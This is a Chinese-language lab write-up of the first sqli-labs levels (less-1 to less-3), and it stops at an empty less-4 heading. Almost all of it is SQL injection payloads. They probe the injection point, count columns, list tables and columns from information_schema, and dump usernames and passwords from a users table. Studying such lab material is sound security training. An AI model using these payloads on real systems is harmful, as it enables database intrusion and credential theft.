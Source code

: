 ```yaml
---
typora-copy-images-to: ../images
typora-root-url: ..
---
```




# sqli-labs writeup

刷刷sqli-labs ，学习下sql注入漏洞

环境是win10虚拟机, phpstudy搭建的

php版本:5.4.45

mysql版本:5.7.26



### less-1

单引号闭合

payload:

```
获取表名
?id=0' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
获取列名
?id=0' union select 1,2,group_concat(column_name) from  information_schema.columns where table_name='users' --+
获取字段内容
?id=0' union select 1,2,group_concat(0x3a,username,0x3a,password) from users --+
```



### less-2

数字型注入,直接用union注入就可以了

payload:

```
获取表名
?id=0 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()
获取列名
?id=0 union select 1,2,group_concat(column_name) from  information_schema.columns where table_name='users'
获取字段内容
?id=0 union select 1,2,group_concat(0x3a,username,0x3a,password) from users 
```



### less-3

单引号加圆括号闭合

payload：

```
注入点探测：
?id=1') and 1=2 --+
获取列数量：
?id=1') order by 4 --+
获取表名：
?id=0') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
获取列名：
?id=0') union select 1,2,group_concat(column_name) from  information_schema.columns where table_name='users' --+
获取数据：
?id=0') union select 1,2,group_concat(0x3a,username,0x3a,password) from users --+
```



### less-4

